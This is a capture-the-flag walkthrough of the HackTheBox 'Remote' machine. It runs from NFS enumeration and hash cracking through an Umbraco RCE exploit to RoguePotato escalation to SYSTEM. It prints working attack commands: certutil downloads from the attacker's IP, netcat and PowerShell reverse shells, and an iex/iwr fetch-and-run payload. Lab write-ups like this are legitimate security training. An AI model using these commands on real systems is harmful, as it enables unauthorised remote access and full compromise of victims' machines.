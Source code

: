 # Remote [HTB]()
![remote-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/remote-01.png)

## Recon

Let's start enumerating the target with:

```bash
nmap -p- --min-rate 10000 remote.htb
```

After we get the ports we can query the service verisons with:

```bash
nmap -p 21,80,111,135,139,445,2049,5985,47001 -sCV remote.htb -oN nmap.result # I Left out some RPC related ports 
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/nmap-res-02.png)

We have the following:

+ A Microsoft FTPd server on port 21.
+ An HTTP server on port 80.
+ An rpcbind endpoint on port 111.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ A possible NFS share on port 2049.
+ Two HTTPAPI ports at 5985 & 47001.

Quite a large attack surface. It appears that the FTP server is allowing anonymous logins so let's start with that. Afterwards, we can take a look at the NFS share on port 2049, as the NFS protocol doenst have any authintication or authorization. Then we can take a look at the SMB and HTTP servers. 

## FTP Port 21

After connecting anonymously to the server I ran `ls` to list out the contents but it came out empty:

![ftp-empty-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ftp-empty-03.png)

I then tried to download any possible files from the server using this one liner:

```bash
wget -m ftp://anonymous:anonymous@remote.htb
```

But this came out empty as well so i decided to move on to the NFS share. 

## NFS Port 2049 & 111.

If we list out the rpc info using `rpcinfo remote.htb`:

![rpcinfo-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/rpcinfo-04.png)

We can see that we have `nfs` listening on `0.0.0.0`, which means we have a network share out there. We can verify this with 

```bash
showmount -e remote.htb
``` 

![showmount-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/showmount-05.png)

We have `/site_backups` publicly avialbale to anyone. We can mount this on our local machine with:

```bash
mkdir /mnt/remote.htb
mount -o rw,vers=2 remote.htb:/site_backups /mnt/remote.htb
```

If we `cd` into this directory and run `ls` we can the following:

![dir-tree-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/dir-tree.png)

Looks like a backup directory tree of an IIS server. We also see the word `Umbraco` here as well. [Umbraco](https://en.wikipedia.org/wiki/Umbraco) is an open-source CMS platform built on Microsoft .NET framework and designed to work on IIS servers.  

I started by taking a look at `Web.Config`. On line 44 I found the version number:

![ver-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ver-07.png)

I searched online and found an [RCE exploit](https://github.com/Jonoans/Umbraco-RCE) for this version, but we need to be authinticated to pull it off. So i decided to keep looking around the filesystem. 

I started to dig into every file, but I was rather lost, so I to search online for information about juicy Umbraco files. And that's where I found [this post](https://our.umbraco.com/forum/core/general/47400-How-does-Umbraco-store-its-data#:~:text=The%20content%20data%20is%20stored,file%20at%20%2FApp_Data%2Fumbraco.) that mentioned a database at `App_Data/Umbraco.sdf`. So I decided to look for ways to open this file.

I tried to use online sites to convert it to `csv` as well as different forms of databases like `MySQL` and `MariaDB` but nothing worked. I also tried `christianhelle`'s [sqlcequery](https://github.com/christianhelle/sqlcequery) tool to open sdf files but it didnt work either. 

So instead I ran `strings` on it to see what I can extract:

![strings-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/strings-08.png)

This looks important. I see two user accounts here, `admin` and `smith`, as well as two hashing algorithms, `SHA-1` and `HMAC-SHA256`. I decided to go for the admins password first. 

I cracked it with the following syntax:

```bash
hashcat -m 100 -a 0 "b8be16afba8c314ad33d812f22a04991b90e2aaa" rockyou.txt
```
![pass-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/pass-09.png)

The admin's password is `baconandcheese`. Lets try to log in. 


## HTTP Port 80.

At first I opend the site at `http://remote.htb` :

![site-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/site-10.png)

Ok, not much here. Let's run a directory scan with:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://remote.htb/FUZZ -e .cgi,.js,.txt,.xml,.aspx
```

![install-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/install-11.png)

This sounds interesting and it also gave us a redirect. Lets see where this leads:

![login-page-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/login-page-12.png)

It redirected us to `http://remote.htb/umbraco/#/login`. At first I tried authenticating with `admin : baconandcheese` but this failed. I tried different usernames until I found that `admin@htb.local` works:

![admin-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/admin-13.png)

This username was also mentioned later down in the `Umbraco.sdf` file. 

## Initial-Access Exploit

After reveiwing the [source code](https://github.com/Jonoans/Umbraco-RCE/blob/master/exploit.py#L76) of the exploit for a bit, it's seems ready to go. We just need to install the exploit with:

```bash
git clone https://github.com/Jonoans/Umbraco-RCE
cd Umbraco-RCE
pip install -r requirements.txt
chmod +x exploit.py
```

Then we can run the exploit with:

```bash
./exploit.py -u admin@htb.local -p baconandcheese -w http://remote.htb/ -i 10.10.14.39
```
Where: 

+ `-u` and `-p` are for the usrename and password values. 
+ `-w` is for the target url.
+ `i` is the loacl IP for the reverese shell. 


Which gives us initial access to the target:

![shell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-14.png)

However this shell gave me lots of issues, it was quite unstable. So I hosted `nc.exe` on my Kali machine via a python web server, downloaded it to the target and connected back to my kali with:

```cmd
cd c:\\windows\temp
certutil -urlcache -f http://10.10.14.39/nc.exe nc.exe
.\nc.exe -e cmd.exe 10.10.14.39 443
```

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-15.png)

## Privilege Escalation

After landing on the machine, I started hunting for quick wins. First, I looked at our user's privileges with:

```cmd
whoami /priv
```

![privs-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/priv-16.png)

Looks like we have the `Impersonate` privilege enabled which means we can try to pull off a potato attack. However if we take a look at the target OS we will see it is running a 2019 Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![os-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/os-17.png)

So `JuicyPotato` wont work here. Instead we can use [RoguePotato](https://github.com/antonioCoco/RoguePotato) which can be download [here](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe). 

Once we have Rogue-Potato on our Kali, we need to transfer it over to the target using a python server:

```bash
python3 -m http.server 80
```

Now we can download Rogue-Potao to the target with:

```cmd
certutil -urlcache -f http://10.10.14.39/RoguePotato.exe rp.exe
```

Next, we need to setup `socat` to run on port 135 on our Kali machine and redirect it back to `remote` on port 9999:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.129.231.183:9999
```

Now we can execute `Rogue-Potato`. At first I tried executing `nc` to get a shell:

```cmd
.\rp.exe -r 10.10.14.39 -e "c:\\Windows\\Temp\nc.exe -e cmd.exe 10.10.14.39 9001" -l 9999
```

Rogue-Potato succesfully executed, but I didnt get a shell. So instead I decided to go for a different approach with nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. Make sure to invoke the script at the end:

![invoke-17.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/invoke-17.5.png)

I hosted this file with a python server, and started my listener with:

```bash
rlwrap nc -lnvp 9001
```

Then, I executed Rogue-Potato once again with:

```cmd
.\rp.exe -r 10.10.14.39 -e "powershell -c iex( iwr http://10.10.14.39/shell.ps1 -UseBasicParsing)" -l 9999
```

This gave me a shell as the SYSTEM:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/root-18.png)
